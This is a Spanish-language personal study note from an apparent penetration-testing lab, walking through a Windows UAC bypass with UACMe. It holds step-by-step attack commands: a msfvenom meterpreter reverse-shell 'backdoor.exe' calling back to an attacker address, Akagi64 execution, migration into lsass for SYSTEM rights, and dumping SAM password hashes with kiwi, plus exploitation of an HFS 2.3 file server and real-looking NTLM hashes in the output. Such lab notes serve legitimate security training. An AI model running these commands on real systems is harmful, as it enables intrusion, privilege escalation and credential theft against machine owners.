 21-03-2025 20:43
Status: #idea
Tags: [[Windows Privilege Escalation]]

- [[#Uso de UACMe|Uso de UACMe]]

# Bypassing UAC (UACMe)

UAC es una herramienta de Windows que permite solicitar permisos del administrador para realizar ciertas acciones.

Básicamente, permite indicarle a Windows que el usuario está seguro de que quiere ejecutar el programa.

Para conseguir saltarnos UAC, necesitaremos acceso a una cuenta de usuario que esté en el grupo de local administrators.

Como en la elevación de permisos, las técnicas van a cambiar dependiendo de la versión que usemos de Windows.

Para verificar que usuarios hay en la máquina, y cuales forman parte del grupo de administradores podremos usar estos comandos en un shell:

```shell
net user
net localgroup administrators
```

Si estamos en un meterpreter, habrá que spawnear una shell antes, con el comando **shell**.

Para verificar que UAC está funcionando correctamente, podremos intentar cambiar la contraseña de algún admin, por ejemplo:

```shell
net user admin password123
```

## Uso de UACMe

[UACMe](https://github.com/hfiref0x/UACME) es una herramienta que nos ayudará a saltarnos esta comprobación de Windows.

Tendremos que generar un payload con msfvenom:

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=1234 -f exe > backdoor.exe
```

Posteriormente, tendremos que crear un listener, para lo que usaremos **multi/handler**, poniendo la payload **windows/meterpreter/reverse_tcp**, poniendo el LHOST y LPORT como siempre.

Si no existe el directorio Temp, tendremos que navegar a C: y crearlo, y posteriormente, subir en la máquina que tenemos el meterpreter nuestro backdoor.exe con el comando upload, además del Akagi64 o Akagi32 de UACMe.

```shell
upload backdoor.exe
upload Akagi64.exe
```

Para este lab, usaremos la key 23, pero esto, si miras la documentación, verás que puede variar dependiendo de lo que queramos hacer, y de la versión de Windows.

```shell
.\Akagi64.exe 23 C:\Temp\backdoor.exe
```

Esto conseguirá que se ejecute nuestro backdoor.exe con privilegios elevados, consiguiendo así una sesión de meterpreter con permisos elevados.

Si hacemos ahora **getprivs**, veremos como tenemos más privilegios que antes.

Esto nos permitirá migrar a cualquier otro proceso, por ejemplo, **lsass.exe** que tenga permisos de NT AUTHORITY\SYSTEM con el comando migrate especificando el PID (Process ID):

```shell
ps
migrate 688
```

Si ahora volvemos a hacer **getuid**, veremos como somos NT AUTHORITY\SYSTEM.


## Práctica

Se nos presenta una máquina que está usando varios servicios por los que podemos intentar entrar, entre ellos SMB, RDP, y un File Server que llama a la atención en el puerto 80.

```terminal
Not shown: 991 closed tcp ports (reset)
PORT      STATE SERVICE            VERSION
80/tcp    open  http               HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=victim
| Not valid before: 2025-03-25T18:45:44
|_Not valid after:  2025-09-24T18:45:44
| rdp-ntlm-info: 
|   Target_Name: VICTIM
|   NetBIOS_Domain_Name: VICTIM
|   NetBIOS_Computer_Name: VICTIM
|   DNS_Domain_Name: victim
|   DNS_Computer_Name: victim
|   Product_Version: 6.3.9600
|_  System_Time: 2025-03-26T18:51:01+00:00
|_ssl-date: 2025-03-26T18:51:08+00:00; -1s from scanner time.
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
| smb2-time: 
|   date: 2025-03-26T18:51:02
|_  start_date: 2025-03-26T18:44:21
| smb2-security-mode: 
|   3:0:2: 
|_    Message signing enabled but not required

```

Esto me llevó a investigar el file server, y observar la versión que tiene. Si indagamos un poco más, veremos como este file server tiene un [CVE en 2014](https://www.exploit-db.com/exploits/39161), como vemos en exploit-db.com tiene un POC, pero también busqué en metasploit para ver si existía un módulo por comodidad, y si, existía.

Usando este exploit, conseguí spawnear una sesión de meterpreter, y posteriormente me centraré en elevar los privilegios haciendo un bypass uac, ya que si usamos los comandos para ver si nuestro usuario está en grupos de administradores obtendremos lo siguiente:

```powershell
C:\Users\admin\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>net user
net user

User accounts for \\VICTIM

-------------------------------------------------------------------------------
admin                    Administrator            Guest                    
The command completed successfully.


C:\Users\admin\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>net localgroup administrators
net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
admin
Administrator
The command completed successfully.


C:\Users\admin\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>net user admin password123
net user admin password123
System error 5 has occurred.

Access is denied.
```

Como vemos, al intentar cambiar la contraseña con el comando **net user `<usuario> <contraseña>`**, nos da que el acceso es denegado.

Acto siguiente, he generado una payload con msfvenom con el siguiente comando:

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.49.2 LPORT=1234 -f exe > backdoor.exe
```

Esto generará el archivo backdoor.exe que posteriormente tendremos que subir al servidor vulnerado.

También tenemos en la ruta **/root/Desktop/Tools/UACME** el fichero Akagi64.exe necesario para completar la práctica.

Una vez subidos con el comando upload ambos archivos, podremos pasar a ejecutarlos y conseguir nuestra backdoor:

```terminal
.\Akagi64.exe 23 C:\Users\admin\AppData\Local\Temp\1\backdoor.exe
```

> [!DANGER] Listener
> Recuerda generar un listener con el payload **windows/meterpreter/reverse_tcp**, si no es probable que no funcione.

Ahora que tenemos nuestro nuevo meterpreter, nos metemos en el con **sessions X**, y usaremos el comando **getprivs** para ver nuestros permisos.

Posteriormente, usaremos el comando **ps**, para listar los procesos y buscaremos un proceso que esté usando NT AUTHORITY\SYSTEM, y migramos a el con el comando **migrate `PID`**.

Si ahora hacemos **getuid**, veremos que nos debería de dar NT AUTHORITY\SYSTEM.

Si ahora queremos dumpear las hashes, tendremos que hacer lo siguiente:

```shell
load kiwi
lsa_dump_sam
```

Y con esto nos debería de dar las hashes de la cuenta de administrador de la máquina vulnerada:

```shell
Domain : VICTIM
SysKey : 23675d238b2d51b9bd6c6885a4fbe6cf
Local SID : S-1-5-21-2563855374-3215282501-1490390052

SAMKey : 3a6573bd037a5d6890f5cf1dd77c8f40

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 659c8124523a634e0ba68e64bb1d822f

RID  : 000001f5 (501)
User : Guest

RID  : 000003f4 (1012)
User : admin
  Hash NTLM: 4d6583ed4cef81c2f2ac3c88fc5f3da6
```

---
# Backlinks

```dataview
LIST
FROM [[]]
SORT file.name ASC
```
